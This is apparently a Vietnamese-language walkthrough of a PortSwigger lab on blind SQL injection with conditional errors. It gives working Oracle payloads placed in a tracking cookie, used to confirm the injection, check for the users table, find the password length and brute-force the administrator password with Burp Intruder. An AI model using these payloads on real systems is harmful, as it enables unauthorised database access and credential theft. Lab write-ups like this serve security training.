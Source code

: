 # Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:
 
`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `True` hay `False`

Query được sử dụng trong lab

```
SELECT trackingID FROM someTable WHERE trackingID = '<COOKIE-VALUE'>
```

Mình sẽ bỏ qua hoàn toàn content của cookie từ bây giờ và chỉ cung cấp chuỗi được thêm vào giá trị TrackingId.

Bài này mình làm 2 cách `sqlmap` và `Portswigger`

# Solution:

# PortSwigger:

Kiểm tra `TrackingID` cookie bằng cookie editor. Thêm kí tự `'` thì gây ra lỗi

![image](https://user-images.githubusercontent.com/115911041/234747603-d319fdfc-f2f3-4847-b3fb-01ee3c4b0d6f.png)

Bởi vì loại lỗ hổng này, chúng ta không thể thấy bấy kì kết quả nào của query cũng như sự khác biệt ở output. Tuy nhiên, nếu ta có thể tạo ra các requests gây ra lỗi database, ta có thể suy ra giả trị thật dựa trên việc lỗi có hiển thị ra hay không.

Vậy bước đầu ta cần xác định tham số nào là lỗ hổng bằng cách tạo ra các request mà đưa ra câu trả lời `normal` hoặc `error`.

Inject 1 kí tự `'` tạo ra `server error`, inject 2 kí tự `'` thì không xảy ra. Điều này cho thấy khả năng SQLi, vì thề mình thử vài payload:

`'||(SELECT+null||'` cũng cho ra lỗi, tuy nhiến nếu là  `'||(SELECT+null+FROM_dual)||'` thì không. Vì thế database đang sử dụng là Oracle DB.

***Toán tử `||` cho phép nối chuỗi dữ liệu và kết quả truy vấn. `()` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.***

## TÌm lệnh 'normal' và 'error'

Dựa vào `cheat sheet` mà Lab cung cấp, một ví dụ về conditional error 

`SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FORM DUAL`

Với `normal` query, chúng ta lấy `input` là `FLASE`, dó đó nó không xảy ra lỗi `divison by zero`

```
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Content của cookie cho `normal` case được cho ra một trang web `normal`:

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Trường hợp `error` có condition được cho là true, do đó khiến cho databse thực hiện `division by zero` dẫn đến `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Giờ chúng ta đã có cách phân biệt kết quả của boolean condition.

## Xác định database table và columns

Bước tiếp theo là xác định table `users` có thật sự tồn tại ở trong database. Với cái này, mình sử dụng database version oracle giới hạn lượng row output:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

Nó cho thấy trang web, xác định đó là query hợp lệ và cũng như table name và cả column names đều hợp lệ.

## Xác định user tồn tại trong database

Để gây ra lỗi, chúng ta mở rộng ví dụ bằng cách thực hiện `division by zero` nếu tên người dùng không tồn tại. Câu lệnh này gây ra `internal server error`, chĩ ra rằng query này dẫn đến `division by zero`

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Thay đổi username thành một giá trị tùy ý, page được hiển thị. Điều này xác định rằng điều kiện `1=1` và `division by zero` phụ thuộc vào việc `FROM users WHERE...`  một phần trả về thứ gì đó.

Điều này xác định `administrator` tồn tại trong database.

## Xác định chiều dài của password

Xác định chiều dài rất dễ dàng bằng cách sử dụng hàm `LENGTH` ở cuối câu điều kiện SQL.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

Sẽ hiển thị ra page, chỉ ra rằng kcheck `1=1`  chưa bào giờ được thực hiện. Sử dụng Burp Intruder, mình kiểm tra các số từ 1 đến 50. Và đây là kết quả:

![image](https://user-images.githubusercontent.com/115911041/234764891-1bee6f68-254a-497e-8724-b0c7a15c0818.png)

Password có độ dài là 20

## Liệt kê password của administrator

Bây giờ ta đã có độ dài của password, ta có thể brute force mỗi kí tự.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

![image](https://user-images.githubusercontent.com/115911041/234771778-bf4cc7ce-115e-4f39-b730-430e28cd716a.png)

Attack type : ***Cluster bomb***

Payload 1: numeric (1..20)

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/234780110-868eeb9d-24a2-48b1-a425-675662867d78.png)

`Password: cdqdx99j8s0srlhmnjq8`

